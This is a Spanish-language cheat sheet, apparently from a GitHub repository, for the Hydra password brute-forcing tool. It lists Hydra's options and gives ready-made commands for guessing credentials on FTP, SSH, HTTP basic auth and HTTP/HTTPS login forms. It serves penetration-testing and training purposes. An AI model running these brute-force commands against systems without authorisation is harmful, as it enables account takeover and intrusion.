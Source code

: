 # Hydra Cheat Sheet

## Opciones

- `-s <port>` : Si el servicio está en un puerto diferente por default.
- `-l` : Especificar un usuario.
- `-L <userfile>` : Leer de un archivo listado de usuarios.
- `-p` : Especificar un password.
- `-P <passwordfile>` : Leer de un archivo listado de passwords.
- `-f` : Detener el ataque al encontrar una coincidencia.
- `-t <#tasks>`: Número de conecciones en paralelo por objetivo.
- `-M <targetsfile>` : Leer de un archivo listado de objetivos.
- `-o <file>` : Guargar el resultado en un archivo.
- `-vV` : Modo verbose, mostrando el inicio de sesión+contraseña para cada intento

#### Conocer los tipos de servicios que se pueden atacar
```
hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
```

## Ejemplos

#### Cracking con Brute Force en FTP Server
```
hydra -t 1 -l admin -P <PATH-TO-PASSWORD.lst> -vV <IP-ADDRESS> ftp
```

#### Cracking con Brute Force en SSH Server
```
hydra -l msfadmin -P <PATH-TO-PASSWORD.lst> -vV <IP-ADDRESS> ssh
```

#### Fuerza bruta usando una wordlist para usuarios y otra para contraseñas e intentar que pase la contraseña en cada usuario de la lista
```
hydra -L <PATH-TO-USER.lst> -P <PATH-TO-PASSWORD.lst> -u -f <IP-ADDRESS> -s <PORT> http-get
```

#### Cracking con Brute Force a un formulario de inicio de sesión por HTTPS (La data de POST esta separada con el ':') y usando un mensaje de password incorrecto
```
hydra -l none -P <PATH-TO-PASSWORD.lst> -f <IP-ADDRESS> https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:F=Incorrect password" -t 64

# Estructura de la data:
/login.php:<USER-PARAMETER>=^USER^&<PASSWORD-PARAMETER>=^PASS^:[F/S]=<FAILED/SUCCESS-STRING>
```

#### Fuerza bruta a un formulario de inicio de sesion por HTTP donde al ingresar una contraseña mal regresa al mismo formulario y eso usarlo como mensaje incorrecto
```
hydra -l admin -P <PATH-TO-PASSWORD.lst> -f <IP-ADDRESS> -s <PORT> http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

#### Ataque de Fuerza Bruta a una Authenticacion Basica que se encuentre en un directorio web
```
hydra -l admin -P <PATH-TO-PASSWORD.lst> -s <PORT> -f <IP-ADDRESS> http-get /<DIRECTORY>
```

#### Cracking con Brute Force en WEB Login Server, enviando 'usuario:password'
```
hydra -C <WORDLIST-WITH-COLON-SEPARATED-FORMAT> <IP-ADDRESS> https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"

Archivo credentials.txt:
albert:password
juan:mypassword
beto:qwerty
.
.
.
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)